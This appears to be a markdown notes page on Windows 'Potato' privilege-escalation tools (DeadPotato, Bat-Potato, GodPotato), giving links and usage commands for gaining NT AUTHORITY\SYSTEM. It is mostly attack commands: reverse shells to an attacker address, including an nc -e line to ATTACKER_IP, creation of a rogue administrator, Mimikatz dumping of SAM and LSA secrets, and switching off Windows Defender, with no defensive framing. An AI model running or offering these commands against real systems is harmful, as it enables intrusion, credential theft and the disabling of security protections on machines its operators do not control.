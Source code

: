 # Potato Exploits

Link for reference: https://github.com/AtvikSecurity/CentralizedPotatoes

### 1) Dead Potato

Link: https://github.com/lypd0/DeadPotato

#### Usage

The SeImpersonatePrivilege right is enabled in your context? With DeadPotato, it is possible to achieve maximum privileges on the local system.

The tool will attempt to start an elevated process running in the context of the NT AUTHORITY\SYSTEM user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.

    C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

    _,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_
  
     (*) Example Usage(s):

     -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

     -> deadpotato.exe -cmd "whoami"
     -> deadpotato.exe -rev 192.168.10.30:9001
     -> deadpotato.exe -exe paylod.exe
     -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
     -> deadpotato.exe -shell
     -> deadpotato.exe -mimi sam
     -> deadpotato.exe -defender off
     -> deadpotato.exe -sharphound

     (*) Available Modules:

     - cmd: Execute a command as NT AUTHORITY\SYSTEM.
     - rev: Attempts to establish a reverse shell connection to the provided host
     - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
     - newadmin: Create a new administrator user on the local system.
     - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
     - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
     - defender: Either enables or disables Windows Defender's real-time protection.
     - sharphound: Attempts to collect domain data for BloodHound.

### 2) Bat Potato

Link: https://github.com/0x4xel/Bat-Potato

#### Usage

Attacker:

    python Bat-Potato.py

Server will be listening incomming requests. Keep that connection alive, open new tab and open another listening port for the reverse shell.

    rlwrap nc -lvnp 4444

You must upload the following files on the server:

- wget.exe

- Bat-Potato.bat file generated by python script

On the server, execute

    .\Bat-Potato.bat

This will upload shell.bat, nc.exe and Juicy binary from server and will attempt to Privesc making all the CLSID request automatically.

### 3) God Potato

Link: https://github.com/BeichenDream/GodPotato

1) Run commands

        GodPotato -cmd "cmd /c whoami"

2) Execute reverse shell

        GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe ATTACKER_IP PORT"
